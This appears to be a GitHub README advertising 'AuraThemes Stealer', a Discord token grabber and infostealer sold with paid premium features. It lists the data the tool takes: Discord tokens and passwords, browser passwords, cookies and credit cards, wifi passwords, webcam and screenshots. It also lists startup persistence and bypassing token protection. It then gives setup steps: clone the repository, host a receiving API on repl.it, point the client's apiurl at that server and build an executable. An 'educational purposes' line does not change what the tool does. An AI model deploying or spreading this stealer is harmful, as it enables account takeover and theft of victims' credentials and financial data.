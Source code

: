 # <a id="home"></a> AuraThemes - Stealer

## Littleraly One Of The Best Stealer

---

#### [Discord](https://discord.gg/5BJa778F7B) - [Build](#salepute) - [Turorial](#tutorial) 

AuraThemes Stealer: Steal discord tokens and get privileged access!

Our powerful AuraThemes Stealer is a tool designed to help get Discord tokens to access user accounts. With the built-in API, you don't run the risk of your Webhook disappearing. <br>
<br>

the best version of a (stealer), in this case it is AuraThemes, with the best form of an OP version

✅: Premium Features (20€ - Join Discord)

## Features
- Grabs Discord Token
- Discord Password (even when it's changed)
- IP Address (Public)
- Discord New Email (when Changed)
- Discord New Password (when Changed)
- Alert When MFA is Enabled
- Alert When MFA is Disabled
- Mac Address (✅)
- UUID (✅)
- Windows Product Key (✅)
- Local IP (✅)
- Wifi Passwords (✅)
- Bot Builder (✅)
- Alert When Paypal Is Added (✅)
- Credit Card When Added (✅)
- Browsers Passwords & Cookies (✅)
- More PC Infos (✅)
- Webcam & Screenshot (✅)
- Steam (✅)
- Add To Startup (✅)
- AutoFill (✅)
- Browsers Credit Cards (✅)
- Stored Discord Backup Codes (✅)
- BookMarks (✅)
- Browsers History (✅)
- Bypass Discord Token Protection (✅)
- Minecraft Grabber (✅)
- In Dev And More...

## <a id="salepute"></a> Free Version Installation

When Done: 
```bash
git clone https://github.com/k4itrun/AuraTokenGrabber
```
```bash
cd AuraTokenGrabber
```
```bash
npm i -g
```
```bash
Setup Your desktopServer/server.js in repl.it
In the desktopClient/client.js replace https://yourapi.com by your api
```
```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```
```bash
node desktopClient/client.js
```
```bash
build EXE: npm run build
```
---
### THIS SCRIPT was made for Educational purposes
[Home](#home)

---
### [TUTORIAL](#tutorial) USE Mode of use

> Create a new project on repl.it to create the API server. This is where you will receive the data sent by the client. (Just copy the contents of [server api] and paste it into your repl.it index file). Once you do that, you will have the receiving API set up.

> Now, in the client section, go to (client) and change line 10 in client.js file:

```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```

> Replace it with the URL of your previously created API server on repl.it.

> With this, everything should be set up correctly, and it should work by running `node client.js`.

## README Spanish soon...